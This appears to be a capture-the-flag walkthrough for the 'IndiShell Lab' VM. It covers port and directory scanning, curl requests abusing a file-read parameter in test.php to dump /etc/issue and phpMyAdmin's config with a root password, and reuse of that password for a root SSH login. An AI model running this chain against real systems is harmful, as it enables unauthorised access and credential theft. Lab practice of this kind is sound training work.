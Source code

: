 ###### Recon Phase:

`$ nmap -p 1-65535 -T4 -A -v 192.168.190.133` 
    

> PORT   STATE SERVICE VERSION<br />
>     22/tcp open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.4 (Ubuntu Linux; protocol 2.0)<br />
>     | ssh-hostkey:<br />
>     |   1024 fa:cf:a2:52:c4:fa:f5:75:a7:e2:bd:60:83:3e:7b:de (DSA)<br />
>     |   2048 88:31:0c:78:98:80:ef:33:fa:26:22:ed:d0:9b:ba:f8 (RSA)<br />
>     |_  256 0e:5e:33:03:50:c9:1e:b3:e7:51:39:a4:4a:10:64:ca (ECDSA)<br />
>     80/tcp open  http    Apache httpd 2.2.22 ((Ubuntu))<br />
>     | http-methods:<br />
>     |_  Supported Methods: GET HEAD POST OPTIONS<br />
>     |_http-server-header: Apache/2.2.22 (Ubuntu)<br />
>     |_http-title: --==[[IndiShell Lab]]==--<br />

`$ dirb http://192.168.190.133 /usr/share/wordlists/dirb/big.txt`
There is phpmyadmin in /phpmy/

----------
###### Attacking Phase:



I saw /test.php that reads a parameter called file so i passed it using curl <br />
`$ curl -X POST -F 'file=/etc/issue' http://192.168.190.133/test.php`<br />
>    Ubuntu 12.04.5 LTS \n \l <br />

Then i tried to extract phpmyadmin's config file<br />
`$ curl -X POST -F 'file=/var/www/phpmy/config.inc.php' http://192.168.190.133/test.php`<br />

    <?php
    /* Servers configuration */
    $i = 0;

    /* Server: localhost [1] */
    $i++;
    $cfg['Servers'][$i]['verbose'] = 'localhost';
    $cfg['Servers'][$i]['host'] = 'localhost';
    $cfg['Servers'][$i]['port'] = '';
    $cfg['Servers'][$i]['socket'] = '';
    $cfg['Servers'][$i]['connect_type'] = 'tcp';
    $cfg['Servers'][$i]['extension'] = 'mysqli';
    $cfg['Servers'][$i]['auth_type'] = 'cookie';
    $cfg['Servers'][$i]['user'] = 'root';
    $cfg['Servers'][$i]['password'] = 'roottoor';
    $cfg['Servers'][$i]['AllowNoPassword'] = true;

    /* End of servers configuration */

    $cfg['DefaultLang'] = 'en-utf-8';
    $cfg['ServerDefault'] = 1;
    $cfg['UploadDir'] = '';
    $cfg['SaveDir'] = '';


    /* rajk - for blobstreaming */
    $cfg['Servers'][$i]['bs_garbage_threshold'] = 50;
    $cfg['Servers'][$i]['bs_repository_threshold'] = '32M';
    $cfg['Servers'][$i]['bs_temp_blob_timeout'] = 600;
    $cfg['Servers'][$i]['bs_temp_log_threshold'] = '32M';
    ?>

so i tried to access with username : root, password : roottoor and i failed then i treid ssh<br />
`$ ssh root@192.168.190.133`<br />

    Welcome to Ubuntu 12.04.5 LTS (GNU/Linux 3.13.0-32-generic i686)
     * Documentation:  https://help.ubuntu.com/

      System information as of Mon May 22 01:41:39 IST 2017

      System load:  0.0               Processes:           107
      Usage of /:   12.1% of 9.61GB   Users logged in:     0
      Memory usage: 11%               IP address for eth0: 192.168.190.133
      Swap usage:   0%

      Graph this data and manage this system at:
        https://landscape.canonical.com/

    New release '14.04.5 LTS' available.
    Run 'do-release-upgrade' to upgrade to it.


    Your Hardware Enablement Stack (HWE) is supported until April 2017.
`$ id`<br />
 >   uid=0(root) gid=0(root) groups=0(root)
----------



